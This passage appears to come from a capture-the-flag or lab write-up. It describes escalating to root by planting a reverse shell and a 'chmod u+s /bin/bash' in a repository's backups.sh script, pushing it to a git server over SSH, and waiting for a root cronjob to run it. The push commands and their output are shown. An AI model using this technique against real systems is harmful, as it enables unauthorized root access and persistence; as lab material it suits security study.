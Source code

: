 I echoed in a reverse shell and a `chmod u+s /bin/bash`, and then made it executable. Afterwards, I submitted a push request to add the edited `backups.sh` into the repository.

```
$ git add *
$ git commit -m "merge pls"
$ GIT_SSH_COMMAND='ssh -i ../key -p 43022' git push origin master                
Enumerating objects: 5, done.
Counting objects: 100% (5/5), done.
Delta compression using up to 4 threads
Compressing objects: 100% (3/3), done.
Writing objects: 100% (3/3), 375 bytes | 375.00 KiB/s, done.
Total 3 (delta 0), reused 0 (delta 0), pack-reused 0
To 192.168.183.125:/git-server
   b50f4e5..99010a3  master -> master
```

Then, we can just wait for the `cronjob` to execute our reverse shell as `root`:

<figure><img src="../../../.gitbook/assets/image (1000).png" alt=""><figcaption></figcaption></figure>
